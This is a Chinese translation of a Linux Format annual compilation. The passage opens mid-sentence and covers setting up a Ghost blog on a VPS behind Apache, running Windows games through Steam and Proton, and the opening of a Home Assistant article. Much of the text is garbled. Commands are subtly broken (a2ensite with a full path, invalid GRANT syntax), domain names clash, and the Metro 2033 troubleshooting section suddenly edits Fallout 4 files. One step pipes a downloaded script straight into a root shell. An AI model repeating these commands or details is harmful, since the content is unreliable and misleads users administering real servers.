那么，这就产生了一个问题：在 Qtractor 中具体如何开始录制过程？首先创建一个空轨道，在轨道区域右键点击并从弹出菜单中选择“添加轨道... (Add Track...)”（快捷键：`Shift+Insert`）。在弹出的对话框中，选择“音频 (Audio)”作为轨道类型并点击确定。

从这里开始事情就变得非常简单了，录制音频的过程是


### 在沙发后运行一个 Ghost 博客

**大卫·拉特兰（David Rutland）想为本文中包含的超自然双关语提前道歉——但这篇文章是在万圣节前夕写就的。**


大卫·拉特兰是一个爱捣鼓东西的业余爱好者。他会心血来潮地购买域名，并在沙发后的 Raspberry Pi 上创建网站。

在 21 世纪的第三个十年，互联网是一个荒凉的地方。远离那些精心修剪的园艺购物缩微模型草坪和社交媒体网站的无尽滚动，如果你认为这个由灯泡组成的网络是一个由 SEO 优化购物指南、VPN 联盟站点和污秽内容组成的无尽沙漠，那是可以被原谅的。

好吧，至少这是我们的体验。那个翻阅目录在不同站点间跳转，跟随个人博客列表（blogrolls）访问作者随心所欲链接到的奇思妙想站点的日子已经一去不复返了。但情况不必如此。摆脱常规的模式，沉浸在那些依然稀少且分散的真正在线社区中。去发现那些网络中的隐藏瑰宝，它们由那些只想记录生活而不想在 Facebook 上为了几个赞而大肆宣传，或者在记录爱好和激情时不想向大型企业财团出卖灵魂的作者所写（嘿，那就是我们——编辑注）。

是的朋友们，独立博客正强势回归，而凭借你崭新的 VPS，你也可以成为其中的一部分。想象一下，当世界偶然发现你的博客，并被吸入你的三部曲、沉思、想法以及对生活、政治、技术、色情和宠物的极其机智的见解时，他们会感到多么欣喜。

想象一下他们的快乐：在将你的智慧之源加入书签并与朋友分享后，他们通过你专业策划的一组指向其他博客的链接，继续在他们的世界中进行更多发现。

那么，什么是博客？你当然很清楚博客是什么。正确的问题应该是：“我该如何选择合适的博客软件？”，可能还伴随着一个附加问题：“我该如何安装它？”我们现在就来讨论这两点。

在最基础的层面，你的博客可以是一个用 `nano`、`mousepad`、`kate` 或任何工具编写的简单文本文件。你可以将其放在 VPS 的根目录下，只需在顶部添加更多文本即可更新。它行之有效，简单且超级安全，因为几乎没有办法将你的想法以纯文本形式输出。没有图片，没有链接，你的博客不太可能被意外或故意地黑掉。

下一个可能性是用 HTML 手写，并增加使用静态网站生成器（SSG，参见 Roundup VPS@P42）的选项。例如 Jekyll，可以让创建和更新变得轻而易举。但 SSG 是当下的热门话题，虽然它们在 *Linux Format* 每个人的心中都占据着可信的一席之地，但这对于我们强大的 VPS 资源来说，似乎严重利用不足。

### Wordpress, wordpress, wordpress

现在我们需要一个内容管理系统（CMS）。与需要一定 HTML 或 markdown 知识以及大量操作技巧的静态网站不同，CMS 处理所有琐碎的细节，最终呈现出你在网页上看到的结果。

完全可以在没有任何知识的情况下创建和管理一个网站，你只需要知道你想写关于你的吉娃娃怀孕的事情，以及能够（或者厌恶地）选择用哪些图片来阐述这件事。

除了少数几个停留在石器时代的顽固站点（linuxformat.com?），几乎所有现存的网站都使用 CMS。你最常见到、遇到、甚至有经验的一种就是 WordPress。它简单、免费，安装就像把东西丢进文档根目录并解压一样简单。没有比这更简单的了，这也是为什么它成为了目前超过三分之一站点的幕后推手。


Ghost 市场（Ghost Marketplace）是你获取新主题以改变博客外观的地方。我们发现它是拖延时间的绝佳机会。

无论是否使用 WordPress，你会从访问日志中注意到，大多数自动化登录尝试都是针对 WordPress 的。如果你真的想陷入一种噩梦般的偏执循环，可以在 YouTube 上搜索 "WordPress hack"，看着“安全专家”攻破管理后台并设法获得宿主系统的 root 权限 shell。此外还有插件问题，有些恶徒建立公司门面，将受欢迎的插件转变为传播恶意软件的特洛伊木马。简而言之，WordPress 吸引黑客就像酸奶吸引苍蝇一样。



> 虽然我们不愿批评任何参与该项目的人或其设计选择，但如果不指出其默认配色方案简直是“反人类”的，那就太不负责任了。

### 哇哦，一个 Ghost！

Ghost 是一个与 WordPress 同样胜任的内容管理系统，且在功能上更具冲击力。我们的专家测试表明，由于它在开源 CMS 市场的渗透率较低，使其成为黑客攻击的目标概率更低。此外，它还拥有一个 WordPress 所缺乏的更宽松的功能集。

撇开漏洞不谈，Ghost（在我们看来）是一个远比 WordPress 更好的博客平台，因为这就是它的唯一存在意义（raison d'etre）。你在 Ghost 中找不到任何嵌入式插件，其界面的一切都致力于为作者创造舒适的写作体验，并为观众提供一个简洁、布局良好的阅读体验。

随着越来越多面向 Web 的软件出现，Ghost 采取了一种更“空灵”的方法，运行在自己的端口上——在本例中是 2368。你的服务器需要将 80 和 443 端口的入站流量代理到 Ghost 实例。

如果你没有遵循我们在本辑第一个教程中的建议，而是在我们诚心推荐的 iGraph 之上选择了 Gnome，那么恭喜你！Gnome 安装脚本确保了配置是一个 Gnome 安装，因此你可以坐享其成。用户需要激活几个模块以启用 Apache 进行代理：

```
sudo a2enmod proxy proxy_http
```

然后重启 Apache：

```
sudo service apache2 restart
```

接着你需要创建一个配置文件，以便 Apache 知道 Ghost 应该在哪里运行。

```
sudo nano /etc/apache2/sites-available/ghost.conf
```

在配置中，你需要告诉 Apache 监听哪个端口、Ghost 服务器的端口以及你的域名是什么。我们的配置如下：

```
<VirtualHost *:80>
ServerName blog.bd/x
ProxyPass / http://127.0.0.1:2368/
ProxyPassReverse / http://127.0.0.1:2368/
ProxyPreserveHost On
</VirtualHost>
```

然后使用 `sudo a2ensite /etc/apache2/sites-available/ghost.conf` 启用配置，并再次重启 Apache。现在你的 Ghost 就有了自己的仪表盘。

> **快速提示**
>
> 你可能会发现（就像我们一样），一些标准的终端快捷键在你的 VPS 上可能不起作用。Ctrl+L 在你的本地机器上可以清屏，但在连接到 VPS 时会导致一片混乱。我们不得不回归传统，通过输入单词 'clear' 来清屏。

### 你要叫谁？

我们现在说服你了吗？太棒了！现在你知道 Ghost 是什么了，并且决定将其作为向世界传递你文字的媒介。我们在 LXF28/LXF29 中花费了大量时间评估之前的两个 VPS 特性（因此请参考 https://bit.ly/bdxll2sxfer 和 https://bit.ly/bdxll2sxfer），如果你没读过，可能会好奇他们从中得到了什么。搞定了吗？接下来，你可以为你的“灵质”博客决定一个域名或 Ghost.ly 的子域名。我们选择了 ghost.lxf.ly，并按照 VPS 提供商的指令将其与 VPS 链接。与 WordPress 不同，Ghost 不允许你简单地将一堆文件丢进文档根目录。

### 其他值得考虑的博客软件

WordPress 和 Ghost 并不是适用于虚拟专用服务器的唯一内容管理系统，但我们非常喜欢它们的强大功能和高度可定制性，以及来自在线社区的支持。有时界限很模糊，且没有一种方案适合所有人。Ghost 是独特的；如果它能激起你的兴趣，且你厌倦了 WordPress 的普及，那么还有数百种替代方案供你尝试。

我们在众多选择中的心头好包括：

- BigTree CMS (www.bigtreecms.org)，一个简单直接、文档齐全且兼容性强的 CMS，使用 PHP 和 MySQL 编写。
- SilverStripe (www.silverstripe.org) 自称为“直观的 CMS”，提供了一个深受编辑和开发人员喜爱的复杂且灵活的框架。
- REDADO (www.redado.com) 拥有一些绝佳的功能，但文档全部用德语编写，所以除非你德语相当流利，否则最好远离。
- October CMS (octobercms.com) 基于 Laravel，提供了一个出色的模块化系统和大量免费插件。

随着用户意识到自己对特定功能集的特殊需求（无论来自他人还是从零开始创建自己的 CMS），新项目一直在不断涌现，因此关注新闻始终是一个好主意。


### Linux Format 2023 年度刊

使用以下命令打开 MariaDB：
`sudo mariadb`

然后输入以下每条命令，这将创建一个名为 `ghost` 的新数据库，并在其中创建一个名为 `ghost` 的用户，并允许该新用户使用该数据库。你可以随意选择自己的命名。

```sql
CREATE DATABASE ghost;
CREATE USER 'ghost'@'localhost' IDENTIFIED BY 'secretpassword';
GRANT USAGE ON '*' TO 'ghost'@'localhost' IDENTIFIED BY 'secretpassword';
GRANT ALL PRIVILEGES ON ghost.* TO 'ghost'@'localhost';
FLUSH PRIVILEGES;
quit;
```

记得妥善保管好密码以备后用，不要把它们写在便利贴上直接贴在屏幕上。

要实际安装 Ghost CMS 软件，只需要两个额外的依赖项：node.js 和 node 包管理器 (npm)。

不幸的是，默认存储库中的最新 node 版本与 Ghost 不兼容，即使是最新的版本 (v16.10.0) 也不行。你需要先安装 `nodesource` PPA。

```bash
curl -sL https://deb.nodesource.com/setup_14.x | sudo bash -
```

运行 `sudo apt-get install -y nodejs` 来安装 Node.js 14.x 和 npm。注意，在此之前无需运行 `apt update`，因为该操作已包含在安装脚本中。通过查询版本号来检查安装是否成功：

```bash
node -v
```

你的 VPS 应该会返回响应：
`v14.16.0`

现在该安装用于安装 Ghost 的工具了：
`sudo npm install -g ghost-cli@latest`

在出现一个花哨的 ASCII 进度条几秒钟后，你将回到命令行。最后，我们可以运行那个（我们保证的）安装命令了：

```bash
ghost install
```

在花时间与去世宠物的灵魂进行一次极力推荐的降神会（或者喝杯茶）的时间里，Ghost 将下载其所需的一切，并最终执行安装。

### 快完成了...

系统会要求你输入博客 URL（输入 `http` 而不是 `https`，因为我们尚未设置 SSL 证书）、MySQL 主机名 (localhost)、MySQL 用户名和密码。

我们读者中眼尖的人会注意到设置过程中出现了一些警告信息和跳过的步骤。你会记得这些（大多与 Nginx 相关）在 LXF 服务器上不存在，因为我们都选择了 Apache。无论如何，如果你在阅读这篇文章，一切应该都顺风顺水。

访问你指定的域名进入新博客，填写名称，选择一个电子邮件地址并想一个酷炫的标题。然后切换标签页重新回到流量之中，因为是时候保护你的博客免受那些想要窃听你的流量并抢劫你主人的“不重复交易商”之手了。

出于对安全性的高度重视，我们运行了 `sudo certbot`，输入了电子邮件地址并拒绝加入 EFF 邮件列表（因为我们已经在列表里了）。Certbot 给了我们一个可以获取证书的域名简短列表。

> **快速提示**
> 一些 VPS 提供商（如 Digital Ocean）提供 Ghost 的一键式 Web 安装，这意味着你可以跳过几乎所有这些步骤。你可以选择这个方案，但那样就没意思了，对吧？


这是你与 Ghost Web 界面进行的第一次交互。它非常漂亮，而且简单直接。

### 千面幽灵 (THE GHOST WITH 1,000 FACES)

就像任何新玩具或小玩意一样，一旦你掌握了基础知识，很容易很快感到厌倦。你会想要更多可以琢磨的东西。这可以理解：要么就这样，要么就开始辛苦地写一篇 3000 字关于灵魂本质或精神品牌的文章。别担心！你可以通过给你的博客进行一次彻底的大改造，来推迟进行任何实际写作工作的必然性。

Ghost 提供了由主题控制的多种外观。默认主题叫作 Casper（原因显而易见），在我看来，它相当不错。布局合理，访问者浏览起来很舒服。前往 `https://ghost.org/themes`，你会看到数百个可以完全改变博客行为的主题。有适合照片库、公告栏、新闻通讯等的各种主题。

其中一些主题是免费的。大多数不是，市场上的最高价格达到了（令人心惊的）149 美元。我们不够富有，不能把它们全部买下来，但我们欣赏这些主题，也认为一些创作者应当为他们的辛劳获得报酬——不过我们在 24 个可用免费主题中选择了 London。我们并不是在暗示 LXF Towers 的人很吝啬，但嗯，我们确实在喝这里提供的免费咖啡。

London 主题的创作者将其描述为“一个极简、现代的 Ghost 主题，专注于洁净的排版和精美的图像”。事实也的确如此。只需在安装页面执行一个简单的命令脚本，输入主题地址，再次点击安装，然后激活即可完成安装。坦白说，不能更简单了。

在我们看来，新主题看起来简直太棒了。现在我们唯一需要做的，就是为我们众多的粉丝写一些迷人的网页文案。

### 控制面板 (Dashboard)



Ghost 控制面板让自定义博客的外观和感觉变得超级简单。只需点击那个大的红色按钮即可开始。

我们选择了相关的选项，并选择了 HTTPS，这意味着任何输入 blog.lx.by 或 http://blog.lx.by 的用户都会被神奇地传输到 https://blog.lx.by。就这样，搞定了，很简单。

### 闹鬼大宅里的幽灵

撇开冷水澡对皮肤的好处、奢华的白色和悄悄开启的门不谈，Ghost 使用起来很愉快，而且定制化程度极高。

仪表盘页面预填充了一篇头条故事，这里的“站点信息”部分可以快速概览所有需要了解的内容，以及精心布置的故事，包括诸如“自定义你的品牌”、“通过订阅注册建立受众”等刺激的冒险，以及可怕的“通过经常性收入销售高级会员”。

我们在一些不安的夜晚思考如何利用这些大写的美好功能，但没用。来到这里只是为了给你带来一个看起来很酷的博客，向世界展示我们日益增多的盆景收藏。不过布局很漂亮，关于定制的文章绝对值得阅读。

在通过 site/ghost 登录后的控制面板上，有一个巨大的黑色横幅，上面有一个标有“开始此设置指南”的绿色按钮。这是改变 Ghost 博客外观和感觉的最佳第一步，点击它将带你逐步了解美学细节。我们选择取消掉未来的霓虹高亮，而倾向于深邃神秘的黑色，背景的淡彩渐变图像被扔掉，取而代之的是类似于《矩阵》的图像语言：绿色的 0 和 1 在黑色背景上倾泻而下。非常 Nullfields 风格。

首页完全使用 DWL 切割并使用安装包附带的非图像素材构建，因此我们从 Creative Commons 许可的网站上下载了一把与 Linux 相关的图像，并使用编辑器将它们替换掉。

### 开始写作

在 Ghost 中写作简单且直观。创建新文章就像按下左侧的 + 符号一样简单。布局是一个纯白页面，一个区域用于标题，另一个区域用于正文。

只需按下 + 按钮提示并选择你想要图像、文本块、HTML、画廊，或最热门媒体提供商（YouTube、Spotify 等）的嵌入，即可添加额外元素。如果你曾使用过高级的 WP Bakery 和 WordPress 插件，你会立刻感到亲切——而且 Ghost 的速度更快，资源占用更轻。

在“集成”部分，你会发现 Ghost 与大量工具（从 Plausible 分析到 Slack）配合良好。设置和使用的难度各不相同，但整体趋于非常简单。

希望你现在对 Ghost 的工作方式有了大概的了解，并且可以毫不费力地自行探索。对于如此复杂的软件来说，能如此容易地掌握其运行方式——我们认为这才是优秀项目的真正衡量标准。

> **快速提示**
> 在发布到网络时，你需要考虑版权问题。除非你了解该许可的条款（即图像属于公共领域），否则你应该仅使用 Creative Commons 许可下的图像。一些摄影师通过发出版权警告赚的钱比卖笔记本还多。尝试使用 Flickr 或 Wikimedia Commons。


```text
ghost install
➜ Checking system Node.js version found v14.18.0
➜ Checking logged in user
➜ Checking current folder permissions
➜ Installing ghost-cli...
➜ Installing ghost...
➜ Installing ghost-package... Missing package(s): nginx
➜ Installing nginx...
➜ Setting up nginx configuration...
For local installs we recommend using 'ghost local install' instead.
➜ Continue anyway? [y/n] y
➜ Installing ghost... (skipped)
➜ Checking system compatibility
➜ Checking for a MySQL installation
➜ Checking memory availability
➜ Checking for latest ghost version
➜ Creating install directory
➜ Installing ghost...
➜ Downloading and installing Ghost v4.16.0
➜ Installing ghost...
```

在 Ghost 中写作简单且纯净。如果我们能想到有趣的事情写，我们会说这是一种享受。

一旦准备工作全部就绪，安装 Ghost 就是一行命令加上填写几个文本字段。如果你使用的是 Nginx 而不是 Apache，那就更容易了。对此我们深表遗憾。

### 变得更加灵性吧，现在就订阅 http://bit.ly/LinuxFormat


### Linux Format 年度刊 2023

### 提升 Steam 和 Proton 游戏体验

**Michael Reed** 将探讨在 Steam 下运行各种游戏（包括专为 Windows 设计的游戏）所需的操作。

> 如果你对 PC 游戏有任何兴趣，可能已经接触过 Steam，它是 Valve 提供的用于分发、更新和运行游戏的平台。通过 Steam 界面，你可以购买游戏、通过互联网安装并保持其更新。

啊，但这又让我们回到了 Linux 游戏支持这个古老难题，因为并非每款 PC 游戏都设计为在 Microsoft Windows 以外的平台上运行。尽管如此，仍有大量 Steam 游戏可以在 Linux 上运行，而且通常情况下，即使需要对配置进行一些微调，也可以让 Windows Steam 游戏在 Linux 上运行。这种方法通过 Steam 使用名为 Proton 的系统得到了官方支持。

在本教程中，我们将探讨如何让所有这些内容运行起来，并尝试优化结果。

### Steam 驱动

Steam 本身是通过一个名为 Steam Installer 的自定义程序安装的。这样做很有意义，因为 Steam 在更新自身及其安装的游戏时，不需要依赖 Linux 自身的更新系统。如今，该安装程序已包含在许多 Linux 发行版（如 Ubuntu、Fedora 及其衍生版）的官方仓库中。由于 Steam 是商业软件，你可能需要启用特定的仓库才能获取它，例如 Ubuntu 的特定仓库或 Fedora 的“Unofficial”仓库。完成后，例如在 Ubuntu 上，你只需在终端输入 `sudo apt install steam` 即可简单地安装 Steam。

如果你运行的是基于 DEB 的发行版，但在官方仓库中找不到 Steam 安装程序，可以直接从 Steam 官网 (store.steampowered.com) 获取。以超级用户身份使用常用的 `dpkg -i [name of archive]` 安装下载的 .deb 软件包。

还有另一种非官方的安装方式，所有 Linux 用户可能会感兴趣，那就是通过 Flatpak 框架安装。Flatpak 在隐私和沙箱化方面具有诸多优势，因为 Steam 一旦进入你的系统，基本上就成了一个独立系统。在绝大多数情况下，标准的 Steam 安装可能是安全的，但如果你有顾虑（或者其他安装方法不起作用），可以尝试 Flatpak 版本（在 https://flathub.org/ 上搜索“Steam”）。

### Steam 中的游戏

让我们从一个示例开始，通过它来探索 Steam 的一些功能。使用商店页面的搜索功能搜索 Steam 自己的 OpenTTD（一款免费游戏），然后点击进入该游戏的产品页面。在预览图片和视频下方，我们可以看到一条包含游戏相关信息的栏，在这种情况下，突出显示的部分是“免费”（太棒了！）。此外还有三个图标，表明该游戏兼容 Microsoft Windows、macOS 和 Linux。事实上，最后一个图标（轮子上的活塞臂）表示该游戏除了支持 SteamOS（Valve 定制的面向游戏的 Linux 发行版）外，还原生支持典型的桌面 Linux 发行版。Valve 销售运行 SteamOS 的专业设备，包括最近宣布的（且看起来很诱人的）Steam Deck 掌上游戏机。显然，这些是桌面 Linux 游戏的良好切入点，因为这激励了 Valve 去支持该平台。

值得继续向下滚动产品页面以确定推荐配置，并确保你的机器符合要求。就 OpenTTD 而言，其配置要求相当低。

**专家观点**
Michael Reed 以前认为，如果能以 2.4 或 3 FPS 运行游戏，就算表现不错了。那时候一切都简单得多……

- 1. **主菜单**：容易被忽视，这是菜单栏。它主要涉及配置 Steam 自身的选项。
- 2. **板块**：带你进入 Steam 不同部分的标签页。如果你将鼠标悬停在上面，每个条目也是一个下拉菜单。
- 3. **游戏库控件**：三个过滤器图标，用于在“已安装游戏”、“拥有游戏”和“原生 Linux 游戏”之间切换。
- 4. **搜索**：如果你有太多的游戏，你会注意到这个搜索框的作用！
- 5. **游戏库**：你库中的游戏列表。左键单击选择游戏，右键单击打开属性菜单。
- 6. **运行游戏**：一个在“开始游戏”、“安装”和“串流”之间切换的按钮。
- 7. **游戏信息**：总游戏时间。当你的老板、父母或伴侣在场时，请记得遮住这里。

### 安装选项

由于该游戏是免费的，我们可以开始安装程序，但在此之前有几点关于安装选项的说明。系统中安装不止一块硬盘是非常常见的。Steam 的伟大之处在于，它允许将游戏安装到系统盘以外的驱动器中。

要开始配置此项，我们需要寻找名为“Steam 库文件夹”的设置，路径为 `< Steam Library > Steam Library Folders`。在这里，你可以添加一个位于 Linux 文件系统任何你拥有权限位置的用户备用安装文件夹。这样做的妙处在于，默认的游戏安装位置在安装对话框中仍然是一个选项。因此，你可以根据可用硬盘空间和性能要求决定安装位置，如果你使用 SSD 作为系统盘，这一点尤为有用。请注意，你可以安装到其他类型的存储设备（如网络驱动器或 USB 闪存盘），但在大多数游戏中，性能往往较差。

> 在 Steam 设置对话框中启用 Steam Play，这样我们就可以在 Linux 上运行受支持以及（非官方）不受支持的 Windows 游戏——真调皮！

要开始安装，点击产品页面顶部的“安装”（对于免费游戏则是“继续”）Play。安装完成后，点击“开始游戏”对系统进行测试，检查游戏是否正常运行。

正如我们已经提到的，Steam 处理自己的更新，因此在使用它玩游戏时无需手动检查。游戏的更新通常很大，但你可以监控它们、暂停或恢复（或者在产品页面通过 `< Overview > Library` 并点击“下载”将其关闭）。这很幸运，因为更新除了消耗带宽外，还使用 zstd 压缩，这意味着在解压时会占用大量 CPU 时间。我们的低功耗机器在整个过程中让两个核心满载，情况十分有趣。方便的是，你可以随时退出 Steam，更新将在下次启动时恢复。

> **快速提示**
> 大多数 Linux 用户喜欢知道系统上运行着什么，但当你关闭 Steam 窗口时，Steam 实际上并没有停止运行；它是一个完全替代的应用。请通过左键单击桌面环境控制面板区域的图标，或在顶部菜单中选择 `< Steam > Exit` 来关闭它。

得益于 Steam Remote Play 串流，准备在没有 3D 支持的笔记本电脑上玩《Firewatch》。

### Windows 游戏

但如果你想玩一款没有 Linux 版本的游戏怎么办？在这种情况下，很有可能……

### 远程运行游戏

Steam 可以在两个安装了 Steam 的设备之间远程运行游戏。其工作原理是：远程计算机运行游戏并压缩视频和音频，然后将这些视频和音频串流到客户端计算机，而客户端则发送回鼠标、键盘和控制器的输入。这种方式的绝妙之处在于，你甚至不需要使用相同的架构，而且还有一个 Android 应用。我们通过家庭网络测试了一台具备游戏能力的 GNU/Linux 计算机，发现运行效果确实非常好。

性能限制因素是运行游戏的宿主机的速度以及网络的延迟和带宽，而不是客户端计算机的性能。因此，你可以拥有一台配备不错显卡的低功耗掌上游戏机作为宿主机，配一台低功耗 Linux 盒子作为客户端。

在千兆以太网环境下，在 1080p 分辨率下运行动作类游戏时，几乎没有任何明显的输入延迟。由于使用了视频压缩，画质会有轻微下降。不过，我们可以通过增加图形平衡设置来在一定程度上缓解这个问题（`Steam > Settings > Remote Play > Client Streaming Options > To This Computer: Beautiful`）。

将游戏从 Windows PC 串流到 Linux PC。按住 Escape 键可打开串流菜单。


### Linux Format 年度刊 2023

它可以利用一个名为 Proton 的系统来运行。作为 Steam for Linux 的官方组成部分，Proton 同时利用了 Wine 和 DXVK，将 Windows 图形调用转换为 Linux 原生调用。然而，这带来了一些注意事项。首先，与游戏在 Windows 上原生运行相比，性能和稳定性可能会有问题。其次，这引发了一些伦理问题，因为通常情况下，在 Linux 上通过 Wine 运行 Windows 软件可能会减轻开发商快速推出原生 Linux 版本的压力。

回到第一个点，了解运行某个特定游戏是否可行且最佳的方法是在 ProtonDB 网站 (www.protondb.com) 上搜索该游戏，看看其他 Linux 用户的情况。该数据库本身组织良好，包含了关于游戏、所使用的操作系统版本以及具体的硬件和软件配置信息。

在 Linux 上运行游戏的成功程度被评级为从“Borked”（崩溃/不可用）到“Platinum”（白金/完美运行）。因此，如果你发现最近有一份令人鼓舞的报告，表明该游戏在与你类似的配置上运行良好，那么成功概率很高。此外，ProtonDB 的报告还包含应使用的 Wine 版本信息以及让顽固游戏的运行技巧。稍后我们将详细介绍。

要在 Linux 上运行 Windows 版本的游戏，请访问 Steam 运行设置（Steam > 设置 > Steam Play）。这里有两个需要启用的选项：“为支持的标题启用 Steam Play”可允许运行明显的 Windows 游戏。这些选项是 Valve 已经测试过并确认可以正常工作的游戏。勾选“为所有其他标题启用 Steam Play”则允许你尝试运行你通过 Steam 拥有的任何 Windows 游戏，即使 Valve 尚未测试过该游戏。通过评估和检查 ProtonDB 中该游戏的条目，你将能最好地了解实际预期情况。

**快速提示**
你可以选择特定版本的 Proton —— 当你无法获得与 ProtonDB 报告相同的结果时，这非常有用。在“库”选项卡中右键点击游戏名称即可实现。然后前往 属性 > 兼容性 > 强制使用特定的 Steam Play 兼容工具，并尝试匹配 ProtonDB 条目中的版本号。

> 凭借对工作的勤奋和投入，作者花费了几个小时的玩游戏时间在《辐射 4》中，以确保它完全可用。

### 故障排除与优化

如果你浏览 ProtonDB，你会注意到很多关于 Winetricks (https://wiki.winehq.org/Winetricks) 的引用。那么它是什么？Winetricks 是一个辅助脚本，用于安装运行某些游戏所需的各种 Windows 组件。该脚本下载这些组件并使其对 Wine 系统可见。如果没有它及其外部环境（即使你在 Steam 之外使用 Wine），例如，如果你从网上下载 winetricks 组件，诸如 Windows 经常需要的字体集“Microsoft Corefonts”和 DirectX，它们会被安装到 Wine（以及 Windows 应用程序）可以识别的位置。

因此，如果你想对某个特定的 Proton 游戏应用 Winetricks 修复而不对其他游戏应用，情况可能会变得有些复杂。幸好，有一个名为 Protontricks (https://github.com/Mathew-Boucher/Protontricks) 的非常有用的脚本正是为此目的而设计的。如果你安装了 Python 环境，可以使用 `pip install pipx protontricks` 来安装它。

要将 Winetricks 应用于特定游戏，你需要找到该游戏的特定游戏 ID，例如通过 ProtonDB。使用 `protontricks -l` 发现我们的 Linux 游戏机上安装了《辐射 4》。接着魔法发生了。这看起来很简单，但我们可以从充满各种细碎问题，转变为能够针对每个游戏逐一添加其所需的所有资源。

这是必要的，因为不同的游戏可能需要不同版本的资源。你甚至会发现，这种灵活性使得某些旧游戏在 Linux 上的可行性比在原生 Windows 上更高，而且随着时间的推移，这种情况在不断增加。例如，使用 `protontricks [game ID] [Winetricks command]`，但大多数时候，你只需从 ProtonDB 条目中复制粘贴所需的命令即可。

在 Protontricks 之后，有些游戏需要特殊的启动选项才能运行。

### 获取大屏体验 (GET THE BIG PICTURE)

Steam 通过一个名为“大屏模式” (Big Picture mode) 的工具，提供一种在人体工程学上更接近主机游戏的体验。这将 Steam 推入一个支持控制器的全屏模式。我们尝试了它，并且非常喜欢它提供的功能。

点击屏幕顶部的一个小图标即可调用大屏模式，你首先会注意到用户界面的每个元素都被放大成“巨型”尺寸，以便在典型的电视设置上获得更好的可读性。你可以使用鼠标或控制器在界面中导航 —— 这一切都可以在舒适的沙发上完成。

然而，我们发现硬件支持并不像界面那样流畅。例如，没有明确的方法来指定应该使用哪个屏幕来运行游戏。虽然应用程序可能有自己的选项，但你无法告诉 Steam 将第二个屏幕用作主显示屏，或设置显示镜像。同样，要让控制器在游戏本身中正常工作也需要一些调试。你可能需要在此进行尝试以找到一个支持良好的配置。我们的结论是：界面得满分，但硬件配置的便捷性仍有改进空间。

大屏界面非常适合在远处进行便捷的导航。

查看 ProtonDB 上《地铁 2033》的兼容性报告，看起来很有希望。对于一款技术要求较高的游戏，迹象表明它是可行的。在退出游戏寻找修复方案时，我们遇到了另一个问题，因为它在退出时卡死了，而不是正常退出。

幸运的是，退出卡死的问题在短期内似乎通过杀死运行中的进程得到了解决。我们通过按下 Alt+F4 退出虚拟终端来实现。在这里，我们输入 `top` 来查看所有运行的用户进程。我们搜索 `fallout4.exe` 并选中第一项。我们使用 kill 进程杀死了 `fallout4.exe`，然后执行 Alt+F4 回到了可用屏幕。在随后运行游戏时，我们学会了通过退出选项菜单（而不是直接退到桌面）然后从中退出游戏来整洁地关闭它。在 Proton 下运行 Windows 游戏时，这类小技巧相当常见。通过搜索网络，我们发现我们遇到的一些类似问题通常可以通过 `WINEDLLOVERRIDES` 解决。

解决方案是在游戏的启动选项中加入 `WINEDLLOVERRIDES="dxgi2_dll=n,b"`。快速返回游戏后确认这在很大程度上修复了该情况，但记得使用一个较早版本的 Proton（而不是默认的实验性构建版本）能使其完美运行。

干扰问题稍微麻烦一点，但很容易追踪。ProtonDB 上反复出现的某些用户建议，即在传递给 INI 文件时添加 `bksystem.dll` 行，事实证明是关键的修复方法，但我们最初很难找到该文件，因为它在多个位置有副本，无法判断哪个起作用。

最终，我们发现我们需要修改位于 `steamapps/Documents` Proton 文件夹中 `compatdata` 文件夹内的 `Fallout4.ini` 文件，而不是游戏目录本身中相同的文件。

此时，我们创建了一个角色并冒险进入后启示录的荒原，体验到的性能与在相同硬件上通过 Windows 平台运行同一款游戏相似。成功！ $\checkmark$

输入启动选项：在 Steam 的库区域右键点击游戏名称，进入“属性”，然后将你在相关 ProtonDB 条目中找到的启动选项输入到方框中。大多数启动选项末尾会带有 `%command` 字符串。如果你一次添加多个启动选项，请删除多余的 `%command` 实例，因为它应该仅在整个选项字符串的末尾出现一次。

如果你需要寻找游戏的 INI 文件之类的内容，可以通过右键点击游戏，进入“属性”，然后在“本地文件”部分选择“浏览...”来浏览游戏文件夹。

如果这一切看起来有点令人困惑，不用担心，我们将通过一个例子，演示如何使用这些技术让另一款游戏真正正常运行。

### 一场史诗般的末日冒险

是时候前往那个无法无天、混乱不堪的禁忌荒原进行旅行了。现在，我们谈论的不是重启进入 Windows。我们将探讨在 Linux 下运行后启示录第一人称角色扮演游戏需要做些什么。如果你不是这个特定类型的粉丝也不要担心（我们记得你是），因为我们选择这款游戏是因为它提供了一个关于如何让一些运行起来比较麻烦的游戏正常运作的绝佳示例。

我们已经购买了这款游戏并在 Windows 下玩了相当一段时间，由于它已经存在于 Steam 库中，我们通过选择它并点击“安装”来进行安装。

记住，由于这款游戏未获得 Valve 的认证，你必须在 Steam Play 设置中启用安装，如前文所述。这导致了一个 35GB 的下载，花费了很长时间，主要是因为在下载时 CPU 运行在 100%。Steam 和 Proton 添加了游戏运行所需的所有组件，因此在这种情况下我们不需要使用 Protontricks。

下载正在进行。请留意此类传输，因为它们会消耗大量带宽、CPU 时间和存储空间。

**快速提示**
在 Steam 应用程序的各个部分寻找兼容游戏时，请寻找可能的修复方案（在 Proton 论坛或其他地方）。此外，一旦你向下滚动找到过滤器，就可以对特定游戏按平台进行筛选。

**让我们和你一起玩游戏！现在订阅 http://bit.ly/LinuxFormat**


### HOME ASSISTANT

来源：www.home-assistant.io

### 让你的家尽可能智能化

Matt Holder 本人就非常精明，他将探讨如何利用 Home Assistant 让你的家尽可能地智能化。

> **我们的专家**
>
> Matt Holder 关注开源方法论已超过二十年，并且尽可能在所有地方使用 Linux 和其他工具。

